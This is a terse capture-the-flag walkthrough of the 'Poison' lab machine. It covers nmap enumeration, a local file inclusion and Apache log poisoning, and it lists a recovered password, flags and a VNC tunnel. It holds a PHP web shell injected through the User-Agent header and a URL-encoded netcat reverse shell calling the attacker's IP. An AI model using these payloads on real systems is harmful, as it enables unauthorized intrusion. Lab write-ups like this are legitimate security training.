 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/poison 10.10.10.84

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e33b7d3c8f4b8cf9cd7fd23ace2dffbb (RSA)
|   256 4ce8c602bdfc83ffc98001547d228172 (ECDSA)
|_  256 0b8fd57185901385618beb34135f943b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

```

# Port 80
LOL just an LFI sitting there. We can get phpinfo and save a file so race condition time.

Didn't work :(

Going to do the intended method and use log poisoning

So the log file:
```
/var/log/httpd-access.log
```

Saves the User-Agent, so lets put a shell there.
```
User-Agent: <?php system($REQUEST['cmd']); ?>
```

`rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.21%209001%20%3E/tmp/f`

On the box there is a pwdbackup.txt which has charix's password.
```
Charix!2#4%6&8(0
```

# Shell as Charix
user.txt:
```
eaacdfb2d141b72a589233063604209c
```

file called secret.zip.

vnc rdp is open
```
netstat -an -p tcp
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

socks tunnel
```
ssh charix@10.10.10.84 -D 1080
```

grab that zip file and extract with pwd:
```
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

root.txt
```
716d04b188419cf2bb99d891272361f5
```